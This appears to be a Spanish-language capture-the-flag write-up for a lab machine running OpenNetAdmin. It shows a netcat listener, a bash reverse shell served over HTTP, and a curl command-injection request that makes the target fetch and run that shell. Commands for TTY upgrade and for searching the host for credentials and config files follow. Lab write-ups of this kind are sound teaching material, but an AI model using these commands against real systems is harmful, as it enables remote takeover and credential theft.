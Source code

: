 Como hemos recibido la peticion get, intentamos ganar accesso al systema.## Vuln exploit & Gaining Access {-}

### Ganando accesso con curl al opennetadmin {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Creamos un fichero index.html con codigo bash

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.8/443 0>&1
    ```

1. Creamos un servidor web con python

    ```bash
    python -m http.server 80
    ```

1. Lanzamos el curl con reverseshell

    ```bash
    curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";curl 10.10.14.8|bash;echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
    ```

Ya hemos ganado accesso al systema.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### User Pivoting {-}

```bash
ls
grep -r -i -E "user|pass|key|database"
grep -r -i -E "user|pass"
cd /home
find \-name user.txt 2>/dev/null
find \-name user.txt
id
sudo -l
cd /var/www
ls -la
cd internal
cd /opt/ona/www
ls
find \-type f 2>/dev/null | grep "config"
```